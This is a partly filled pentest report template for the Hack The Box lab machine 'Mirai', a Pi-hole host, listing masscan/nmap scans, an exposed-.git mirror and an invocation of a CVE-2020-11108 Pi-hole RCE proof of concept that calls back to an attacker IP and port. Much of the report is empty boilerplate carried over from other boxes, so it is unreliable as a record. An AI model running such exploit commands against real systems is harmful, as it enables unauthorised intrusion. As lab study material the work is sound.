



# Mirai

## Introduction

This report is about pentesting a specific machine to see if it's well secured. It will document every thought and interesting investigation that helped to get into privilege escalation.  

## Objective

Run an analysis onto a specific machine ...

## Perimeter

Only this machine (...) with specific tools

- nmap
- masscan
- nc

# High-Level Summary

## Mitre techniques

Initial Access:  

- N/A  

Execution:  

- N/A

Persistence:  

- N/A  

Privilege Escalation:  

- N/A

Defense Evasion:  

- N/A

Credential Access:  

- N/A

Discovery:  

- N/A

Lateral Movement:

- N/A

Collection:  

- N/A 

Command and Control:  

- N/A

Exfiltration:  

- N/A  

Impact:  

- N/A

## Recommendations

I recommend patching the vulnerabilities identified during the testing to ensure that an attacker cannot exploit these systems in the future.
One thing to remember is that these systems require frequent patching and once patched, should remain on a regular patch program to protect additional vulnerabilities that are discovered at a later date.  

Also, I recommend a better management of granted access for framework like perl to avoid root execution without password for any user.  

Check other recommendations at the end of this document. 

# Soluces

[ippsec video of mirai](https://www.youtube.com/watch?v=SRmvRGUuuno)  
[soluces from Hack the box](https://github.com/michoo/sec-learning/blob/master/1_Linux/Mirai/soluce/Mirai.pdf)

# Methodologies

I utilized a widely adopted approach to performing penetration testing that is effective in testing how well the Offensive Security Exam environments is secured.
Below is a breakout of how I was able to identify and exploit the variety of systems and includes all individual vulnerabilities found.

## Reconnaissance

The information gathering portion of a penetration test focuses on identifying the scope of the penetration test.
During this penetration test, I was tasked with exploiting the shocker machine.

The specific IP addresse was:

**Scope**

- 10.129.94.1  

My attacking ip machine was 10.10.14.153

## System IP: 10.129.94.1  
### Enumeration

```bash
sudo masscan -p1-65535,U:1-65535 10.129.94.1 --rate=500
```
```bash
mkdir nmap
sudo nmap -sC -sV -O -oA nmap/initial 10.129.94.1
    -sC: run default nmap scripts
    -sV: detect service version
    -O: detect OS
    -oA: output all formats and store in file nmap/initial

```

#### TCP
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
|   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
|   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
|_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)
53/tcp open  domain  dnsmasq 2.76
| dns-nsid: 
|_  bind.version: dnsmasq-2.76
80/tcp open  http    lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).

#### UDP

#### Web Services

discovery with dirbuster
/home/kali/workspace/devapp/list/SecLists/Discovery/Web-Content/common.txt



-> Pi-hole 

nb: to reset password of user sudo pihole -a -p

#### Other Services
```bash
nslookup
> server 10.129.94.1
> 127.0.0.1
> 10.129.94.1
> localhost
> mirai.htb
```
-> nothing timeout


```bash
dig axfr mirai.htb @10.129.94.1
```
-> nothing timeout

#### Harvested Informations
Pi-hole Version v3.1.4 Web Interface Version v3.1 FTL Version v2.10


#### Vuln Investigation
```bash
searchsploit --id pi-hole
```



##### Check for exploits
Pi-Hole - heisenbergCompensator Blocklist OS Command Execution
https://github.com/Frichetten/CVE-2020-11108-PoC

https://frichetten.com/blog/cve-2020-11108-pihole-rce/

```bash
files/root-cve-2020-11108-rce.py d6mfng8l6shqpr87lchddsika3 10.129.94.1 10.10.14.153 4444
```


SESSION = dict(PHPSESSID=sys.argv[1])
TARGET_IP = sys.argv[2]
LOCAL_IP = sys.argv[3]
LOCAL_PORT = sys.argv[4]

-> authenticated user...


looked into .git directory

```
wget --mirror -I .git http://10.129.94.1/admin/.git/index
```

https://en.internetwache.org/dont-publicly-expose-git-or-how-we-downloaded-your-websites-sourcecode-an-analysis-of-alexas-1m-28-07-2015/

    HEAD
    objects/info/packs
    description
    config
    COMMIT_EDITMSG
    index
    packed-refs
    refs/heads/master
    refs/remotes/origin/HEAD
    refs/stash
    logs/HEAD
    logs/refs/heads/master
    logs/refs/remotes/origin/HEAD
    info/refs
    info/exclude


found something about https://github.com/pi-hole/AdminLTE/blob/master/taillog.php
http://10.129.94.1/admin/scripts/pi-hole/php/tailLog.php?offset=1
-> not authorized

scripts/pi-hole/php/password.php

Maybe into logs/HEAD
0000000000000000000000000000000000000000 f204b717078c89b6401b362f084734350ce13a51 root <root@raspberrypi.(none)> 1502650857 +0000	clone: from https://github.com/pi-hole/AdminLTE.git

-> so it's installed on a raspberry pi maybe it' s the default raspberry default password



http://manpages.ubuntu.com/manpages/trusty/man5/persistence.conf.5.html

### Penetration

### Post exploitation

#### Host Information

#### File system

#### Running processes

#### Installed applications

#### Users & Group

#### Network

#### Scheduled job

### Privilege escalation

*Additional Priv Esc info*

**Vulnerability Exploited:**

**Vulnerability Explanation:**

**Vulnerability Fix:**

**Severity:**

**Exploit Code:**

### Goodies

#### Hashes

#### Passwords

#### Proof/Flags/Other

**Proof Screenshot Here:**

**Proof.txt Contents:**

## Maintaining Access

Maintaining access to a system is important to us as attackers, ensuring that we can get back into a system after it has been exploited is invaluable.
The maintaining access phase of the penetration test focuses on ensuring that once the focused attack has occurred (i.e. a buffer overflow), we have administrative access over the system again.
Many exploits may only be exploitable once and we may never be able to get back into a system after we have already performed the exploit.

## House Cleaning

The house cleaning portions of the assessment ensures that remnants of the penetration test are removed.
Often fragments of tools or user accounts are left on an organization's computer which can cause security issues down the road.
Ensuring that we are meticulous and no remnants of our penetration test are left over is important.

After collecting trophies from the exam network was completed, Alec removed all user accounts and passwords as well as the Meterpreter services installed on the system.
Offensive Security should not have to remove any user accounts or services from the system.

# Detailed Recommandations

## Technical

## Governance

## Blue team

# Additional Items

## Appendix - Proof and Local Contents

IP (Hostname) | Local.txt Contents | Proof.txt Contents
--------------|--------------------|-------------------
192.168.x.x   | hash_here          | hash_here
192.168.x.x   | hash_here          | hash_here
192.168.x.x   | hash_here          | hash_here
192.168.x.x   | hash_here          | hash_here
192.168.x.x   | hash_here          | hash_here

## Appendix - Metasploit/Meterpreter Usage

For the exam, I used my Metasploit/Meterpreter allowance on the following machine: `192.168.x.x`

## Appendix - Completed Buffer Overflow Code

```
code here
```
